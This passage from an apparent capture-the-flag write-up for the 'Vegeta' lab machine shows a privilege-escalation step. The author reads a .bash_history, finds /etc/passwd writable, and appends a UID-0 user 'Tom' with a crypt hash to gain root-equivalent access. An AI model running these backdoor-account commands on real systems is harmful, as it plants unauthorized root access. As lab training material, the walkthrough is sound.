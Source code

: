 ```text
trunks@Vegeta:~$ ls -la
drwxr-xr-x 3 trunks trunks 4096 Jun 28 21:32 .
drwxr-xr-x 3 root   root   4096 Jun 28 17:37 ..
-rw------- 1 trunks trunks  382 Jun 28 21:36 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28 17:37 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28 17:37 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28 19:45 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28 17:37 .profile
```

## Privilege Escalation

It is always worth checking this out, so we look at the contents:

```text
trunks@Vegeta:~$ cat .bash_history
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history
exit
```

We see a password being salted then a new user called Tom added. Strange that this is being done by the user. Let's check permission of the passwd file:

```text
trunks@Vegeta:~$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28 21:23 /etc/passwd
```

We have write permissions as user trunks, let's look at the passwd file:

```text
root@Vegeta:/home/trunks# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<<SNIP>>
```

User Tom isn't in passwd, but we can add him be using the line from the history file:

```text
trunks@Vegeta:~$ echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```
